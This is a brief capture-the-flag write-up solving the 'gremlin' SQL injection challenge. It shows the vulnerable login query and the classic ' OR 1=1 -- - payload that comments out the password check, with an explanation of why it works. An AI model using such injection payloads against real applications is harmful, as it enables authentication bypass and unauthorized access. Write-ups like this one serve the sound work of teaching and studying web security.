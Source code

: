 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 1
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/18cc31d8-0f98-466a-84f6-3d68bf23ab5f)

We are provided with the SQL query:

```sql
SELECT id FROM prob_gremlin WHERE id='{$_GET[id]}' AND pw='{$_GET[pw]}'
```

In order to make the result of this query `True`, we can provide the following URI:

```
?id=' OR 1=1 -- -
```

The resultant query then becomes:

```sql
SELECT id FROM prob_gremlin WHERE id='' OR 1=1 -- -' AND pw=''

## Queried part
SELECT id FROM prob_gremlin WHERE id='' OR 1=1

## Commented part
AND pw=''
```

Since 1=1 is always true, the result of the `OR` operation will always be `True`.

![2](https://github.com/Kunull/Write-ups/assets/110326359/002d0b4e-53d5-41f0-a173-50f3058c5302)
